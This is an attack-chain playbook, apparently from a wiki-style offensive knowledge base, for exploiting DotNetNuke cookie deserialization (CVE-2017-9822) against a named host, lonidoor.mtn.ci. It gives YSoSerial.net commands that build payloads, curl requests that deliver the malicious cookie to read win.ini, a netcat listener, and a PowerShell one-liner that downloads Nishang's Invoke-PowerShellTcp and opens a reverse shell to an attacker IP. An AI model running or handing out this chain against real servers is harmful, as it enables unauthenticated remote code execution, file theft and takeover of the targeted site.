

# DotNetNuke DNNPersonalization Cookie Deserialization RCE via CVE-2017-9822

The vulnerability exploited is CVE-2017-9822 in DotNetNuke (DNN) versions 5.0.0 to 9.3.0, involving unsafe deserialization of the DNNPersonalization cookie during custom 404 error page handling. This attack chain demonstrates identifying the vulnerable DNN version on a target like lonidoor.mtn.ci, generating deserialization payloads with YSoSerial.net, and triggering RCE to read files and establish a reverse PowerShell shell.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/YSoSerial.net]]
- [[tools/netcat]]

### Target Environment

- DotNetNuke (DNN) versions 5.0.0 to 9.3.0 on Windows with ASP.NET and IIS
- Custom 404 error page handling enabled (default)
- Network access to the target web application on port 80/443

### Initial Access Requirements

- No credentials required; unauthenticated exploitation via HTTP requests
- Attacker must have a public IP for reverse shell (e.g., 192.168.1.101)
- YSoSerial.net compiled and ready on attacker's Windows machine

## Detailed Attack Procedures

### Step 1: Generate Deserialization Payload for File Read
procedure: [[procedures/Generate-DNN-Deserialization-Payload-for-File-Read]]

**Objective**: Create an XML payload using YSoSerial.net to read a sensitive file like C:\Windows\win.ini via DNN cookie deserialization.

**Instructions**: Use [[commands/ysoserial-dotnetnuke-read-file]] to generate the payload:

```powershell
PS C:\>ysoserial.net\ysoserial\bin\Release\ysoserial.exe -p DotNetNuke -m read_file -f C:\Windows\win.ini
```

Copy the output XML for use in the next step.

**Expected Output**: XML string payload for the DNNPersonalization cookie.

**Success Indicators**:
- Payload generated without errors
- XML contains deserialization gadgets for FileSystemUtils.WriteFile

### Step 2: Trigger Deserialization to Read File
procedure: [[procedures/Trigger-DNN-Cookie-Deserialization-for-File-Read]]

**Objective**: Send the malicious cookie to the target to trigger deserialization and retrieve file contents.

**Instructions**: Craft a GET request to a non-existent path like /__ with the payload in the DNNPersonalization cookie. Use curl or a browser tool:

```bash
curl -H "Cookie: DNNPersonalization=<PASTE_XML_HERE>" http://lonidoor.mtn.ci/__
```

Replace <PASTE_XML_HERE> with the generated XML.

**Expected Output**: HTTP response body containing the contents of C:\Windows\win.ini.

**Success Indicators**:
- File contents appear in the response
- No 500 error; deserialization succeeds

### Step 3: Setup Reverse Shell Listener
procedure: [[procedures/Setup-Reverse-Shell-Listener-with-Netcat]]

**Objective**: Prepare the attacker's machine to receive the incoming reverse shell connection.

**Instructions**: Execute [[commands/nc-listen-reverse-shell]] on the attacker's machine:

```bash
nc -nlvp 7575
```

Ensure port 7575 is open and forwarded if behind NAT.

**Expected Output**: Listener ready message: "listening on [any] 7575 ..."

**Success Indicators**:
- No port conflicts
- Listener active and waiting

### Step 4: Generate RCE Payload for Reverse Shell
procedure: [[procedures/Generate-DNN-RCE-Payload-for-Reverse-Shell]]

**Objective**: Create a deserialization payload to execute a PowerShell reverse shell command.

**Instructions**: Use [[commands/ysoserial-dotnetnuke-run-command]] with the PowerShell download and invoke command:

```powershell
PS C:\ysoserial.net\ysoserial\bin\Debug> .\ysoserial.exe -p DotNetNuke -m run_command -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.101 -Port 7575"
```

Note the base64-encoded XML output.

**Expected Output**: Base64-encoded XML payload for the cookie.

**Success Indicators**:
- Payload generated successfully
- Command string intact in parameters

### Step 5: Trigger Deserialization for RCE
procedure: [[procedures/Trigger-DNN-Cookie-Deserialization-for-RCE]]

**Objective**: Send the RCE payload to establish the reverse shell.

**Instructions**: Similar to Step 2, send a GET request with the new payload in the cookie:

```bash
curl -H "Cookie: DNNPersonalization=<PASTE_BASE64_XML_HERE>" http://lonidoor.mtn.ci/__
```

**Expected Output**: Connection to netcat listener; PowerShell prompt from target.

**Success Indicators**:
- Reverse shell connects to nc
- Commands executable on target server

## Attack Chain Summary

### Key Achievements

1. Demonstrated file read via deserialization without authentication
2. Achieved full RCE with reverse PowerShell shell
3. Exploited default DNN configuration for 404 handling

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[PowerShell]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2024-10-01T00:00:00Z*
